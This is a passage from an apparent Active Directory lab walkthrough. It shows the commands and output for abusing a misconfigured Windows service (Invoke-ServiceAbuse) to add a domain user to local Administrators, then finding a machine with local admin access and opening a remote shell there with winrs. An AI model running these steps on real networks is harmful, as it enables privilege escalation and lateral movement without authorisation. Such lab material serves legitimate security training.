 ```
'AbyssWebServer'
CanRestart : True

[snip]
[*] Checking service permissions...
ServiceName : AbyssWebServer
Path : C:\WebServer\Abyss Web Server\abyssws.exe -service
StartName : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'AbyssWebServer'
CanRestart : True
```

### Abuse function for Invoke-ServiceAbuse and add our current domain user to the local Administrators group

*  Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx' -Verbose
```
VERBOSE: Service 'AbyssWebServer' original path: 'C:\WebServer\Abyss Web Server\abyssws.exe -service'
VERBOSE: Service 'AbyssWebServer' original state: 'Stopped'
VERBOSE: Executing command 'net localgroup Administrators dcorp\student1 /add'
VERBOSE: binPath for AbyssWebServer successfully set to 'net localgroup Administrators dcorp\studentx /add'
```

**We can see that the dcorp\studentx is a local administrator now. Just logoff and logon again and we have local administrator privileges!**

### Hunt for Local Admin access

**To identify a machine in the domain where studentx has local administrative access, use Find-PSRemotingLocalAdminAccess.ps1**

* . C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
* Find-PSRemotingLocalAdminAccess
```
dcorp-adminsrv
```

**Studentx has administrative access on dcorp-adminsrv and on the student machine.** 
**We can connect to dcorp-adminsrv using winrs as the student user**

* winrs -r:dcorp-adminsrv cmd
```
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
```

* set username
```
set username
USERNAME=studentx
```

* set computername
```
computername
COMPUTERNAME=dcorp-adminsrv
```
